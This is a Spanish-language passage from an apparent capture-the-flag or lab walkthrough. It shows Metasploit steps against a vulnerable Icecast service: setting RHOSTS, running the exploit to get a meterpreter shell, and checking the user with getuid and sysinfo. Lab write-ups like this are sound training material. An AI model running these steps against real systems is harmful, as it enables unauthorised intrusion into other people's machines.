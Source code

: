 Debemos rellenar RHOSTS con la ip de la maquina y comprobamos que lhost coincide con nuestra ip (tun0).

```bash 

set rhosts <IP_MÁQUINA>

```

![rhosts](img/8.png)


## 3. ESCALATE

Al ejecutar el exploit comprobamos que estamos en una shell **meterpreter**.

```bash 

exploit

```

![exploit](img/9.png)

Para ver el usuario que esta usando icecast, usamos getuid.

```bash 

getuid

```

Comprobamos que el usuario es **DARK**.

![getuid](img/10.png)

Lo siguiente es comprobar que build de windows usa, para ello ejecutamos sysinfo.

```bash 

sysinfo

```
